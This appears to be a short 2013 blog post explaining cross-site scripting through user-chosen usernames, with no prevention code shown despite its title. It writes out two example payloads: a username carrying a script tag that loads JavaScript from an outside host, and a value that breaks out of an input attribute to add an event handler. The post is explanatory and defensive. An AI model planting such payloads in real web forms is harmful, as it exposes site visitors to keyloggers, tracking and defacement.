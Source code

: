 ```yaml
---
id: 1127
title: Code Injection prevention - user names
date: 2013-02-20 23:26:41
author: taimane
layout: post
permalink: /code-injection/
published: true
categories:
   -
tags:
   -
---
```

Code injection (often called cross-site-scripting or XSS ) is where a malicious user combines text and scripting to enter "malicious" values to your web page forms.

You have a system allowing users to register as members to your web site. Users are allowed to create their own username. 
They fill out a form, and you save the data they set to the database. 

Someone could create a user with the following username:

<pre class="prettyprint">Username<script type="text/javascript"; src="http://www.blah.net/danger.js">
</script></pre>

Visitors will see the username, but also external JavaScript will be loaded.
This allows attackers to add keyloggers, tracking scripts, or porn banners on your site, or just stop your site working altogether. 

There is a similar problem if someone tries to enter smt. like this in the input field. 
<pre class="prettyprint">Mister XSS" onhover="some bad code</pre> in the text field.

<pre class="prettyprint"><input type="text" value="Mister XSS" onhover="some bad code" /></pre>


Thanks  

